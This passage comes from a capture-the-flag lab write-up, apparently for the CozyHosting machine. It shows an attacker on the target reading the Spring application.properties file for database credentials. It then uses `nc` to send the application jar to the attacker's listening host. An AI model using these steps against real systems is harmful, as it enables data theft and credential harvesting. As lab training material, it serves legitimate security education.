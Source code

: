 ```
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-line:before { content: "\eed0"; }

```

The first line has a `datasource` password, which looks interesting. I’ll inspect that file:

```

app@cozyhosting:/dev/shm$ cat BOOT-INF/classes/application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres

```

It’s the database connection information.

#### jd-gui

I’ll start `nc` listening forwarding any output to `cloudhosting-0.0.1.jar` on my host:

```

oxdf@hacky$ nc -lnvp 443 > cloudhosting-0.0.1.jar
Listening on 0.0.0.0 443

```

On CozyHosting, I’ll send the Jar into `nc` back to my host:

```

app@cozyhosting:/dev/shm$ cat cloudhosting-0.0.1.jar | nc 10.10.14.6 443

```

This hangs, but on my host it shows a connection:

```

oxdf@hacky$ nc -lnvp 443 > cloudhosting-0.0.1.jar
Listening on 0.0.0.0 443
Connection received on 10.10.11.230 48534

```

After a few seconds, I’ll kill it on my side, and make sure the `md5sum` of the two files matches.
